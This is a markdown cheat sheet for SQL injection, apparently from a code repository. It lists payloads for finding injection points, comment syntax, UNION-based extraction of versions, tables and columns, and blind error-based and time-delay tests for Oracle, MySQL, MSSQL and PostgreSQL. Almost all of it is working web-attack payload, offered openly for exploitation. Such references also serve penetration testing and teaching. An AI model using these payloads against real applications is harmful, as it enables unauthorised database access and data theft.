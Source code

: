 # Check for SQLi
## Determine entry point
**All SQL types:**
```
'
"
`
')
")
`)
'))
"))
`))
```
## Comments after query injection
**Oracle:**
```sql
--comment
```
**PostgreSQL, MSQL, MySQL, SQLite:**
```sql
-- comment [note the space after the double hyphen]
/*comment*/
```

# Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it ``╰(*°▽°*)╯``

## Get number of columns
**MySQL, MSQL, PostgreSQL:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
## Get database versions
**Oracle:**
```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
**MySQL, MSQL:**
```sql
SELECT @@version
```
**PostgreSQL:**
```sql
SELECT version()
```
## Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
## Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
## Concatenate strings
**Oracle, PostgreSQL:**
```sql
'foo'||'bar'
```
**MSQL:**
```sql
'foo'+'bar'
```
**MySQL:**
```sql
'foo' 'bar' -- Note the space between the two strings
CONCAT('foo','bar')
```

# Blind SQLi
If you cant see the output of your query then try these ``（￣︶￣）↗``　

*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

## Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

## Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```

